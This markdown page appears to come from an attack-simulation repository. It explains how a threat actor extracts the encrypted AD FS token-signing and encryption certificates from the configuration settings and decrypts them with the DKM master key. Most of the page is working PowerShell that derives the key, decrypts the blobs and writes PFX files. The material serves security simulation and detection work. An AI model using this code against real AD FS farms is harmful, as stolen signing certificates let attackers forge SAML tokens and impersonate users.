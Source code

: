 # Export Active Directory Federation Services (AD FS) Certificates as PFX Files With DKM Master Key

Federation servers require token-signing certificates to prevent attackers from altering or counterfeiting security tokens to gain unauthorized access to Federated resources. The AD FS certificates (token signing and decryption) are stored in the AD FS database configuration, and they are encrypted using Distributed Key Manager (DKM) APIs. DKM is a client-side functionality that uses a set of secret keys to encrypt and decrypt information. Only members of a specific security group in Active Directory Domain Services (AD DS) can access those keys in order to decrypt the data that is encrypted by DKM.

when the primary AD FS farm is configured, an AD container (AD FS DKM container) is created in the domain controller and the DKM master key is stored as an attribute of an AD contact object located inside of the container. The AD FS DKM master key can then be used to derive a symmetric key and decrypt AD FS certificates.

A threat actor could use the `AD FS configuration settings` to extract sensitive information such as AD FS certificates (encrypted) and get the path to the AD FS DKM container in the domain controller. The `AD FS DKM master key` can then be retrieved from the AD container and used to decrypt AD FS certificate. Finally, the AD FS token signing certificate can be used to sign SAML tokens and impersonate users in a federated environment.

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Output](#output)
* [Variations](#variations)

## Preconditions

* Input:
    * AD FS Configuration Settings
    * AD FS DKM Master Key

## Simulation Steps

### Extract AD FS Token Signing Certificate

```PowerShell
[xml]$xml=$settings
$encTokenSigningPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encTokenSigningPfx)
$encPfxBytes | Format-Hex
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_token_signing_cert.png)

### Extract AD FS Encryption Certificate

```PowerShell
[xml]$xml=$settings
$encEncryptionPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$encPfxBytes | Format-Hex
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_encryption_cert.png)


### Decrypt Certificates

```PowerShell
$key = '<ADFS-DKM-KEY>'

$certs = [ordered]@{}
$certs["signing"] =    $encTokenSigningPfx
$certs["encryption"] = $encEncryptionPfx

# Iterate over certificate objets
foreach ($certType in $certs.Keys) {
    $encPfxBytes=[System.Convert]::FromBase64String($certs[$certType])
    $guid=        $encPfxBytes[8..25]  # 18 bytes
    $KDF_oid=     $encPfxBytes[26..36] # 11 bytes
    $MAC_oid=     $encPfxBytes[37..47] # 11 byte
    $enc_oid=     $encPfxBytes[48..58] # 11 bytes
    $nonce=       $encPfxBytes[59..92] # 34 bytes
    $iv=          $encPfxBytes[93..110] # 18 bytes
    $ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
    $cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

    # Create the label
    $label = $enc_oid + $MAC_oid

    # Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
    # As the key size is only 16 bytes (128 bits), no need to loop.
    $hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
    $hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
    $decryptionKey = $hmacOutput[0..15]
    Write-Verbose "Decryption key:"
    Write-Verbose "$($decryptionKey|Format-Hex)"
    # Create a decryptor and decrypt
    $Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
    $Crypto.Mode="CBC"
    $Crypto.KeySize = 128
    $Crypto.BlockSize = 128
    $Crypto.Padding = "None"
    $Crypto.Key = $decryptionKey
    $Crypto.IV = $iv[2..17]
    $decryptor = $Crypto.CreateDecryptor()

    # Create a memory stream and write the cipher text to it through CryptoStream
    $ms = New-Object System.IO.MemoryStream
    $cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
    $cs.Write($ciphertext,0,$ciphertext.Count)
    $cs.Close()
    $cs.Dispose()

    # Get the results
    $decryptedBytes = $ms.ToArray()
    $ms.Close()
    $ms.Dispose()

    $CertificatePath = "C:\ProgramData\ADFS_$($certType)_$(get-date -format yyyy-MM-ddTHHmmssff).pfx"
    $decryptedBytes | Set-Content $CertificatePath -Encoding Byte

    Get-item $CertificatePath
}
```

## Output
* AD FS Encryption Certificate
* AD FS Token Signing Certificate

## Variations


## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [Token-Signing Certificates | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/design/token-signing-certificates#:~:text=%20A%20token-signing%20certificate%20must%20meet%20the%20following,in%20the%20personal%20store%20of%20the...%20More%20)